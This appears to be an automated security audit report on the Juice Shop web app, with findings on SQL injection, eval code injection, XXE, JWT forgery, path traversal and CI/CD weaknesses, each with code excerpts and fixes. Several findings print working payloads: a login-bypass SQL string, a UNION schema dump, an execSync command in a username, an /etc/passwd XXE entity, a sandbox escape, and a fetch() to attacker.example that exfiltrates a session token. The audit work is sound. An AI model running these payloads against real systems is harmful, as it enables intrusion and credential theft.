**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `routes/address.ts:11`

**Instances (20):** 🔴 `routes/address.ts:11`, 🔴 `routes/address.ts:18`, 🔴 `routes/address.ts:29`, 🟠 `routes/basketItems.ts:68`, 🔴 `routes/dataExport.ts:26`, 🟠 `routes/delivery.ts:34`, 🔴 `routes/deluxe.ts:25`, 🔴 `routes/deluxe.ts:30` … (+12 more)

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:11

export function getAddress () {
  return async (req: Request, res: Response) => {
    const addresses = await AddressModel.findAll({ where: { UserId: req.body.UserId } })
    res.status(200).json({ status: 'success', data: addresses })
  }
}
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-014](#m-014) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `routes/login.ts:34`

**Issue:** `req.body.email` is interpolated directly into a raw Sequelize query string at `routes/login.ts:34`: `SELECT * FROM Users WHERE email = '${req.body.email}'`. An unauthenticated POST to `/rest/user/login` with `email` = `' OR '1'='1'--` returns the first user row (the seeded admin account).

Full UNION-based data extraction is also possible. The password hash check is also in the same interpolated string, so it can be eliminated by the attacker.

Full authentication bypass and arbitrary data extraction from the SQLite database including password hashes, emails, and order history.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `models.sequelize.query()` receives a template-literal string containing `req.body.email` with no escaping or parameterization at line 34.

```typescript
// routes/login.ts:34

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-015](#m-015) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `routes/search.ts:23`

**Issue:** The product search endpoint `GET /rest/products/search?q=` passes `req.query.q` directly into a raw Sequelize query at line 23: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%'...)`. A UNION injection payload such as `q='))UNION SELECT sql,null FROM sqlite_master--` extracts the full database schema.

Further UNION queries exfiltrate user emails and password hashes. This endpoint requires no authentication per `server.ts:600`, making it reachable by any internet user.

Unauthenticated read of the entire SQLite database contents including user credentials, orders, and challenge state.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `criteria` (derived from `req.query.q` with only a length cap at line 22) is string-interpolated into the Sequelize raw query at line 23.

```typescript
// routes/search.ts:23
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-016](#m-016) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `routes/userProfile.ts:62`

**Issue:** When the `username` field of the authenticated user matches the pattern `#{...}`, `routes/userProfile.ts:62` executes `eval(code)` where `code` is the substring between `#{` and `}`. An authenticated user sets their username to `#{process.mainModule.require('child_process').execSync('id').toString()}` via `PUT /profile`.

On the next `GET /profile` request, `Node.js` executes the shell command and renders the output in the HTML response. This gives any authenticated user arbitrary OS command execution on the server.

Any authenticated user can execute arbitrary operating system commands as the `Node.js` process user, achieving full server compromise.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `eval(code)` at line 62 executes the slice of `user.username` between `#{` and `}` with no allowlist or sandbox.

```typescript
// routes/userProfile.ts:62
        if (!code) {
          throw new Error('Username is null')
        }
        username = eval(code) // eslint-disable-line no-eval
      } catch (err) {
        username = '\\' + username
      }
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-017](#m-017) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · XML External Entity (XXE)

**Severity:** 🔴 Critical  ·  **Component:** [C-04](#c-04) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** An unauthenticated attacker POSTs to `/file-upload` a crafted XML file containing an external entity declaration (e.g., <!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><x>&xxe;</x>). At `fileUpload.ts:83`, libxmljs2 is invoked with `noent:true`, which triggers DTD entity resolution and substitutes the file content into the XML document tree.

The resolved XML string is then embedded directly in the error message at line 87 and returned to the caller, exposing up to 400 bytes of the target file's content per request. No authentication is required; any internet actor can trigger this.

Attacker reads arbitrary files readable by the `Node.js` process - `/etc/passwd`, application secrets, private keys, or any file accessible on the server filesystem.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `libxmljs2.parseXml()` is called with { noent: true } at `fileUpload.ts:83`, and the resulting xmlString (including resolved entity content) is embedded in the HTTP 410 error response at line 87.

```typescript
// routes/fileUpload.ts:83
      try {
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
        res.status(410)
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❶ [M-019](#m-019) — Disable XML external entity (XXE) resolution

**Classification:** Injection · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Improper Authentication

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/app.guard.ts:18`

**Issue:** The `LoginGuard.canActivate()` method at `app.guard.ts:17-24` returns `true` solely if `localStorage.getItem('token')` is non-null. Any attacker who can execute JavaScript in the browser (e.g. via DOM XSS angular-spa-003) can write an arbitrary string to localStorage and then navigate to `/administration` or `/accounting`, with the `AdminGuard` and `AccountingGuard` similarly reading and decoding the stored JWT client-side without any server-side signature re-verification.

Given `jsonwebtoken@0.4.0` accepts `alg:none` on the backend, a crafted JWT with `role: admin` and `alg: none` placed in localStorage passes both the client-side `AdminGuard` and, per the backend's known vulnerability, subsequent API calls. This represents a complete privilege escalation chain: XSS → forge JWT → admin UI access → admin API access.

An attacker combining DOM XSS with a forged JWT gains admin-tier UI access and, exploiting the backend's `alg:none` vulnerability, admin-tier API access.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `app.guard.ts:18` checks only `localStorage.getItem('token') != null` without verifying JWT signature, expiry, or role claims on the client side; the AdminGuard at line 54 decodes the JWT client-side via `jwtDecode` (no signature check) to grant admin UI access.

```typescript
// frontend/src/app/app.guard.ts:18


  canActivate () {
    if (localStorage.getItem('token')) {
      return true
    } else {
      this.forbidRoute('UNAUTHORIZED_ACCESS_ERROR')
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❶ [M-020](#m-020) — Harden the authentication flow

**Classification:** Broken Authentication · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Improper Privilege Management

**Severity:** 🔴 Critical  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:56`

**Issue:** The `authorize()` function at `lib/insecurity.ts:56` signs JWTs with the hardcoded RSA private key at line 23. The `isAccounting()` middleware at line 156 trusts the `data.role` claim decoded from the JWT.

Since the private key is public, an attacker signs a JWT with `{ data: { id: <any_id>, role: 'admin', email: 'attacker@evil.com' } }` and sets the `Authorization: Bearer <forged_token>` header. All role-gating middleware (`isAccounting()`, `isDeluxe()`, `isCustomer()`) trusts the role claim without any server-side role table lookup.

Complete privilege escalation - unauthenticated attacker gains admin role, can read all user data, delete content, and access every protected admin endpoint.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `lib/insecurity.ts:56` signs tokens with publicly-known `privateKey`; lines 156-165 and 167-170 decode and trust the role claim from the token without cross-referencing the database.

```typescript
// lib/insecurity.ts:56

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
export const decode = (token: string) => { return jws.decode(token)?.payload }

```

**Fix:** ❶ [M-021](#m-021) — Apply least-privilege permissions

**Classification:** Broken Access Control · [CWE-269](https://cwe.mitre.org/data/definitions/269.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-05](#c-05) - B2B Order API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** An authenticated B2B API user (or an attacker who has forged a valid JWT using the publicly-known private key) POST `/b2b/v2/orders` with an `orderLinesData` value containing a JavaScript constructor-chain escape payload, e.g. `this.constructor.constructor('return process')().exit(1)`. The payload is passed verbatim to `safeEval(orderLinesData)` inside a `vm.createContext()` sandbox.

The `Node.js` `vm` module is explicitly NOT a security boundary - it prevents access to local scope variables but does not prevent access to the JavaScript engine itself. A sandbox escape via the constructor chain (`{}.constructor.constructor`) bypasses `notevil`'s AST-based restrictions because the constructed function executes outside the inspected AST, granting full access to `process`, `require`, the file system, and any environment secrets.

Full server-side code execution as the `Node.js` process user, enabling exfiltration of all environment secrets (DATABASE_URL, API keys), arbitrary file reads/writes, and lateral movement within the deployment environment.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - Line 23 of `routes/b2bOrder.ts` passes the raw `body.orderLinesData` string directly to `safeEval()` inside `vm.runInContext()` with no schema validation, allowlist, or type constraint on the input string.

```typescript
// routes/b2bOrder.ts:23
      try {
        const sandbox = { safeEval, orderLinesData }
        vm.createContext(sandbox)
        vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
        res.json({ cid: body.cid, orderNo: uniqueOrderNumber(), paymentDue: dateTwoWeeksFromNow() })
      } catch (err) {
        if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-022](#m-022) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

### 🟠 High (40)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Cleartext Storage of Sensitive Data

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/Services/user.service.ts:54`

**Issue:** The `changePassword()` method in `user.service.ts:54-55` sends current and new password values as GET query parameters: `/rest/user/change-password?current=<old>&new=<new>&repeat=<new>`. Query parameters are logged in: server access logs (Express/nginx), browser history, browser autocomplete, proxy logs, and CDN access logs.

Any log aggregation system or network intermediary that captures the URL therefore captures plaintext credentials. Plaintext current and new passwords appear in server logs, browser history, and any HTTP proxy that records access logs, enabling credential theft by log access.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - Line 54 of `user.service.ts` uses `this.http.get()` with password values concatenated directly into the URL query string, confirming credentials are transmitted in the request URL rather than the request body.

```typescript
// frontend/src/app/Services/user.service.ts:54

  changePassword (passwords: Passwords) {
    return this.http.get(this.hostServer + '/rest/user/change-password?current=' + passwords.current + '&new=' +
    passwords.new + '&repeat=' + passwords.repeat).pipe(map((response: any) => response.user), catchError((err) => { throw err.error }))
  }
```

**Fix:** ❷ [M-036](#m-036) — Stop storing sensitive data in cleartext

**Classification:** Cross-Site Scripting (XSS) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Hardcoded Cryptographic Key

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:44`

**Issue:** The HMAC key `'pa4qacea4VK9t9nGv7yZtwmj'` at `lib/insecurity.ts:44` is used by `security.hmac()` which is called in `routes/resetPassword.ts:41` to verify security answers. Since this key is in the public GitHub repository, any attacker can pre-compute the HMAC of every likely answer (names, common words, short phrases) offline without interacting with the server.

This transforms the security question from a possession factor into a trivially searchable hash. Pre-computation of all possible security answers - attacker performs offline dictionary attack against any leaked SecurityAnswer hash value to recover the answer without rate limiting.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `lib/insecurity.ts:44` hardcodes the string `'pa4qacea4VK9t9nGv7yZtwmj'` as the HMAC key passed to `crypto.createHmac('sha256', ...)`.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❷ [M-037](#m-037) — Move cryptographic keys to a managed secret store

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/login/login.component.ts:101`

**Issue:** Both `login.component.ts:101` and `oauth.component.ts:52` write the JWT bearer token to `localStorage.setItem('token', ...)`. Browser localStorage is accessible to all JavaScript executing on the same origin.

The multiple confirmed XSS vulnerabilities in this component (angular-spa-003, angular-spa-004) mean that any successful XSS payload can exfiltrate the JWT with a simple `fetch('https://attacker.example/steal?t=' + localStorage.getItem('token'))`. A successful XSS on any page in the application allows full session hijacking by extracting the JWT from localStorage, enabling the attacker to act as the victim until the token expires.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - localStorage.setItem('token', ...) is called at `login.component.ts:101` and `oauth.component.ts:52`; `app.guard.ts:18` and :35 confirm the token is later read back from localStorage for both auth checks and JWT decoding.

**Fix:** ❸ [M-009](#m-009) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · OAuth Implicit Flow Token Exposure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/login/login.component.ts:134`

**Issue:** The `googleLogin()` method constructs an OAuth authorization URL with `response_type=token`, redirecting the browser to Google's authorization endpoint. On return, the access_token appears in the URL fragment (hash).

This exposes the token in browser history, and if any external resource (analytics, fonts, third-party script) is loaded on the redirect-landing page, the token may leak via the Referer header. An attacker who captures the access token from the URL fragment or via CSRF token injection can impersonate the victim user, obtaining a valid session token stored in localStorage.

**Evidence:** ✓ verified - Line 134 explicitly sets `response_type=token` and omits both `state` and `nonce` parameters, matching the OAuth Implicit Flow pattern deprecated by RFC 9700.

```typescript
// frontend/src/app/login/login.component.ts:134

  googleLogin () {
    this.windowRefService.nativeWindow.location.replace(`${oauthProviderUrl}?client_id=${this.clientId}&response_type=token&scope=email&redirect_uri=${this.redirectUri}`)
  }
}
```

**Fix:** ❷ [M-023](#m-023) — Replace Implicit Flow with Authorization Code + PKCE

**Classification:** OAuth / OIDC Misconfiguration · [CWE-598](https://cwe.mitre.org/data/definitions/598.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Weak Password Recovery Mechanism

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/resetPassword.ts:41`

**Issue:** The password reset flow at `routes/resetPassword.ts:41` compares `security.hmac(answer)` against the stored HMAC. The HMAC key is hardcoded at `lib/insecurity.ts:44` as `'pa4qacea4VK9t9nGv7yZtwmj'`.

Security questions (e.g. "What is the name of your eldest sibling's middle child?") have low-entropy answers researchable via OSINT (LinkedIn, social media). Account takeover for any user whose security question answer is guessable or researchable.

**Evidence:** ✓ verified - `resetPassword.ts:41` accepts any HMAC-matching string as a valid reset credential; there is no lockout, CAPTCHA, or delay after failed attempts.

```typescript
// routes/resetPassword.ts:41
        }]
      })
      if ((data != null) && security.hmac(answer) === data.answer) {
        const user = await UserModel.findByPk(data.UserId)
        if (user) {
```

**Fix:** ❷ [M-024](#m-024) — Add rate limiting and replace security questions with email-token-based password reset

**Classification:** Broken Authentication · [CWE-640](https://cwe.mitre.org/data/definitions/640.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:24`

**Issue:** The Socket\.IO server registers a 'connection' event handler at line 24 with no authentication middleware. Any script or browser tab - authenticated or not - can establish a WebSocket connection and both receive all broadcast messages and invoke all event handlers.

The CORS origin restriction (`http://localhost:4200`, line 20) applies only to browser-originated requests and is bypassed by wscat, curl, or `socket.io`-client in a script. Unauthenticated access to all WebSocket event handlers, enabling reception of CTF flags, challenge-solve notifications, and ability to invoke all server-side verification events.

**Evidence:** ✓ verified - `io.on`('connection', ...) at line 24 has no preceding `io.use`() middleware that validates a bearer token or session; the only Socket\.IO constructor option is the CORS origin setting at line 20.

```typescript
// lib/startup/registerWebsocketEvents.ts:24
  globalWithSocketIO.io = io

  io.on('connection', (socket: any) => {
    if (firstConnectedSocket === null) {
      socket.emit('server started')
```

**Fix:** ❷ [M-025](#m-025) — Add JWT authentication middleware to Socket\.IO connection via `io.use` before accepting connections

**Classification:** Injection · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Npm install --unsafe-perm runs postinstall

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile:5`

**Issue:** The Dockerfile builder stage runs `npm install --omit=dev --unsafe-perm` at line 5 as the default root user. The `--unsafe-perm` flag explicitly disables npm's normal privilege-drop behaviour, causing all postinstall lifecycle scripts in the dependency tree to execute as UID 0.

Any compromised transitive dependency (the lockfile is absent - see ci-cd-pipeline-005) can execute arbitrary commands with root privileges at build time: write files anywhere in the container, modify build outputs, inject backdoors into `/juice-shop/build/app.js`, or exfiltrate secrets present in build-time environment variables. A compromised npm dependency executes as root at image build time, enabling backdoor injection into the published Docker image or exfiltration of CI secrets.

**Evidence:** ✓ verified - Dockerfile line 5 uses `--unsafe-perm` flag, forcing postinstall scripts to run as root within the builder container stage.

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-029](#m-029) — Drop unnecessary privileges in build and runtime

**Classification:** Supply-Chain Integrity · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Unpinned third-party GitHub Action allows

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:161`

**Issue:** The coverage-report job references `coverallsapp/github-action@v2` (`ci.yml` line 161) using a mutable version tag instead of a 40-character commit SHA. A threat actor who compromises the coverallsapp publisher account - or who can perform a tag-mutation attack - can retroactively move the @v2 tag to point to malicious code.

On the next workflow run triggered by any push to master/develop, that code executes inside the CI runner with full access to `secrets.GITHUB_TOKEN` (also passed at line 163), `secrets.CYPRESS_RECORD_KEY`, and other ambient environment secrets. Full compromise of all repository secrets, ability to push code or releases to production, and persistent backdoor injection into Docker images published to DockerHub.

**Evidence:** ✓ verified - Line 161 of `ci.yml` uses `coverallsapp/github-action@v2` - a mutable tag that can be silently redirected by the publisher to arbitrary code.

```yaml
// .github/workflows/ci.yml:161
          name: api-test-lcov
      - name: "Publish coverage to Coveralls"
        uses: coverallsapp/github-action@v2
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
```

**Fix:** ❷ [M-030](#m-030) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `package.json:88`

**Issue:** No `package-lock.json` is committed to the repository. Every `npm install` in CI resolves the full dependency tree afresh from the registry - different transitive dependency versions may install on each run.

A supply-chain attacker who publishes a maliciously-updated version of any transitive dependency (e.g., bumping the patch version of an unmonitored package) can silently inject backdoor code into CI builds without any source code change. Transitive dependency compromise delivers backdoored builds to all environments (DockerHub, Heroku, packaged releases) without detection.

**Evidence:** ✓ verified - `package-lock.json` is absent from the repository root, and .github/dependabot.yml does not exist, confirmed by the config-scan (CFG-011, CFG-012).

```json
// package.json:88
    "cypress:run": "cypress run",
    "frisby": "nyc --report-dir=./build/reports/coverage/api-tests jest --silent --runInBand --forceExit",
    "postinstall": "cd frontend && npm install && cd .. && npm run build:frontend && (npm run --silent build:server || cd .)",
    "lint": "eslint *.ts data lib models routes test/**/*.ts views && cd frontend && npm run lint && npm run lint:scss && cd ..",
    "lint:config": "schema validate -s config.schema.yml",
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-031](#m-031) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Path Traversal

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:45`

**Issue:** An unauthenticated attacker uploads a ZIP file containing an entry with a path like ../../`ftp/legal.md`. At `fileUpload.ts:41`, `entry.path` is concatenated directly into 'uploads/complaints/' + fileName without path sanitization.

`path.resolve()` normalizes the result to `/app/ftp/legal.md` (line 42). Attacker overwrites application files (e.g., `ftp/legal.md`, config files) within the app working directory, enabling content tampering or file corruption.

The challenge at line 43 explicitly confirms `ftp/legal.md` is a reachable target.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `entry.path` from the ZIP archive is concatenated unsanitized at line 45; the containment check at line 44 uses path.resolve('.') as the guard boundary (the entire app root) rather than path.resolve('uploads/complaints/'), allowing writes to any subdirectory of the app root.

```typescript
// routes/fileUpload.ts:45
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {
                  entry.pipe(fs.createWriteStream('uploads/complaints/' + fileName).on('error', function (err) { next(err) }))
                } else {
                  entry.autodrain()
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ❷ [M-033](#m-033) — Constrain file paths to a safe base directory

**Classification:** Injection · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:18`

**Issue:** Neither `routes/login.ts` nor `routes/resetPassword.ts` emit any structured log entry on successful or failed authentication. The login function at `routes/login.ts:18-84` calls `afterLogin()` on success and `res.status(401).send()` on failure without logging either outcome.

The password reset function at `routes/resetPassword.ts:16-55` updates the user's password on success without any audit trail. No forensic trail for account compromise - attackers can deny authentication events; PCI-DSS Requirement 10.2 (log access to cardholder data) cannot be satisfied.

**Evidence:** ✓ verified - `routes/login.ts` imports no logging library and contains no log/audit calls; `routes/resetPassword.ts` likewise has no structured event emission on password change.

```typescript
// routes/login.ts:18

// vuln-code-snippet start loginAdminChallenge loginBenderChallenge loginJimChallenge
export function login () {
  function afterLogin (user: { data: User, bid: number }, res: Response, next: NextFunction) {
    verifyPostLoginChallenges(user) // vuln-code-snippet hide-line
```

**Fix:** ❷ [M-034](#m-034) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:338`

**Issue:** Only HTTP access logs are written via `morgan('combined')` at `server.ts:338`. Security-relevant events - user login success and failure, admin actions (role assignment, product modification, order status change), JWT forgery attempts, and SQL injection errors - produce no structured security log entries.

An attacker who exploits the JWT forgery (express-backend-001) or SQL injection (express-backend-003) can perform admin operations and exfiltrate data with no trace beyond raw HTTP access log lines that do not record outcome, actor identity, or data touched. Post-incident forensics cannot determine which accounts were accessed, which data was exfiltrated, or when exploitation began.

**Evidence:** ✓ verified - No `security.audit()`, structured logger call, or append-only event sink is present in `routes/login.ts`, admin route handlers, or the error handler chain; only `morgan` access logging exists.

```typescript
// server.ts:338
    max_logs: '2d'
  })
  app.use(morgan('combined', { stream: accessLogStream }))

  // vuln-code-snippet start resetPasswordMortyChallenge
```

**Fix:** ❷ [M-035](#m-035) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Incorrect Permission Assignment

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:1`

**Instances (2):** `.github/workflows/release.yml:1`, `.github/workflows/zap_scan.yml:1`

**Issue:** `release.yml` has no workflow-level permissions block. The release pipeline runs on version tag pushes and pushes Docker images and GitHub release assets. A compromised action step inherits write-all GITHUB_TOKEN permissions, enabling unauthorized release artifact injection.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - A sensitive resource is created with permissive default permissions.

```yaml
// .github/workflows/release.yml:1
